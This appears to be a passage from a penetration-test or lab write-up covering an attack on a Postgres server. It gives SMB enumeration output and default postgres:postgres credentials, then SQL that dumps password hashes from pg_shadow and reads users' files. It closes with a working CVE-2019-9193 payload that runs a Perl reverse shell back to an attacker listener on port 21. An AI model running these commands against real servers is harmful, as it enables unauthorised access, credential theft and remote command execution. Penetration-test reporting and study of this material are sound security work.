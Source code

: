 The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET

# output
[+] IP: 192.168.224.47:445      Name: 192.168.224.47                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
#### Default Credentials
```bash
# Postgres
# postgres:postgress
```

### Postgress
Login.
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
```

Check if current user is a super-user.
```bash
SELECT current_setting('is_superuser'); #If response is "on" then true, if "off" then false
```

Print password hashes of users in the Postgres database.
```bash
SELECT usename, passwd FROM pg_shadow;
```

Explore the filesytem.
```bash
SELECT pg_ls_dir('/home');
```

Read a file.
```bash
CREATE TABLE demo(t text);
COPY demo from '/home/wilson/local.txt';
SELECT * FROM demo;
```

Using CVE-2019–9193 to invoke a reverse shell to TCP port 21. 
```bash
sudo nc -nvlp 21

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.51:21");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';
```
